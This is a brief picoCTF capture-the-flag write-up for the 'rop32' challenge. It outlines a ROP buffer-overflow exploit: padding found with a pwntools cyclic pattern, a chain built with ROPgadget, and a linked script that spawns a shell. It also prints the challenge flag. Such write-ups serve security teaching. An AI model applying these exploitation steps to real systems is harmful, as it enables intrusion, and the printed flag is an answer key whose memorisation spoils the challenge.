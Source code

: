 # rop32

## Problem

> Can you exploit the following program to get a flag? You can find the program in /problems/rop32_4_0636b42072627d283f46d2427804b10c on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Get padding by running `python2 -c "from pwn import *; print cyclic(50)" | ./vuln` then `dmesg | tail` to get segfault address of `0x61616168` then `cyclic_find(0x61616168)` to get padding of `'a'*28`
2. Run `python ROPgadget.py --binary ./vuln --rop --badbytes "0a"` to get ROP chain
3. Paste in padding of `'a'*28`
4. Run [script.py](./script.py) for remote execution
5. Run `cat flag.txt` in the shell that spawns

### Flag

`picoCTF{rOp_t0_b1n_sH_dee2e288}`
